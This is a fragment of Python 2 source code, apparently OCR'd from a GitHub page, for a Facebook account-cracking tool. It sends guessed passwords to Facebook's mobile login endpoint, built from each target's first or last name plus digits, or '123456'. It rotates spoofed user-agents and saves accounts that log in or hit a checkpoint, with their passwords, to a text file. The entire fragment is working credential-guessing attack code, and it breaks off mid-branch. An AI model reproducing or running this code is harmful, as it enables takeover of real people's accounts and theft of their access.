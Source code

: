 					rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pc2, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.1.2; AFTMM Build/NS6265; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.110 Mobile Safari/537.36"})
					xo = rex.content
					if 'mbasic_logout_button' in xo or 'save-device' in xo:
						print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pc2
						oke = open('done/like.txt', 'a')
						oke.write('\n   [OK] '+em+' • '+pc2)
						oke.close()
						oks.append(em)
					else:
						if 'checkpoint' in xo:
							print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pc2
							cek = open('done/like.txt', 'a')
							cek.write('\n   [CP] '+em+' • '+pc2)
							cek.close()
							CP.append(em)
						else:
							pc3 = v['first_name'].lower()+'1234'
							rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pc3, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 6.0.1; SM-G532G Build/MMB29T) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.83 Mobile Safari/537.36"})
							xo = rex.content
							if 'mbasic_logout_button' in xo or 'save-device' in xo:
								print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pc3
								oke = open('done/like.txt', 'a')
								oke.write('\n   [OK] '+em+' • '+pc3)
								oke.close()
								oks.append(em)
							else:
								if 'checkpoint' in xo:
									print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pc3
									cek = open('done/like.txt', 'a')
									cek.write('\n   [CP] '+em+' • '+pc3)
									cek.close()
									CP.append(em)
								else:
									pc4 = v['last_name'].lower()+'123'
									rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pc4, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
									xo = rex.content
									if 'mbasic_logout_button' in xo or 'save-device' in xo:
										print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pc4
										oke = open('done/like.txt', 'a')
										oke.write('\n   [OK] '+em+' • '+pc4)
										oke.close()
										oks.append(em)
									else:
										if 'checkpoint' in xo:
											print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pc4
											cek = open('done/like.txt', 'a')
											cek.write('\n   [CP] '+em+' • '+pc4)
											cek.close()
											CP.append(em)
										else:
											pc5 = '123456'
											rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pc5, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
											xo = rex.content
											if 'mbasic_logout_button' in xo or 'save-device' in xo:
												print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pc5
												oke = open('done/like.txt', 'a')